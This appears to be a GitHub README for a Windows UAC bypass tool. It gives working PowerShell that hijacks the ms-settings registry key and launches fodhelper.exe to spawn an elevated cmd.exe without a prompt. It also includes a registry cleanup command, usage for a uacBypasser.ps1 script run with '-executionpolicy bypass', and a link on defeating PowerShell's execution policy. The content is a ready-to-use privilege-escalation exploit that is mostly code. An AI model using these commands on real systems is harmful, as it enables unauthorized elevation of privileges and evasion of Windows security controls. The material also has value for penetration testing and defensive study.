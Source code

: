 # Bypass Windows UAC Technique

## Bypass UAC with Using fodhelper.exe
```
#spawn cmd.exe process 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "cmd.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

#start fodhelper.exe to execute command in the registry
Start-Process "C:\Windows\System32\fodhelper.exe"
```
### Cleanup the registry value 
```
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

![alt text](poc/poc.gif)

## PoC of uacBypasser.ps1

![alt text](poc/pocScript.png)

Usage: 
```
1) input the commands to execute in the batch script
2) powershell.exe -executionpolicy bypass -file .\uacBypasser.ps1 <batch script location>
```
### Tips to bypass ExecutionPolicy in powershell can refer to the link below

```
https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
```
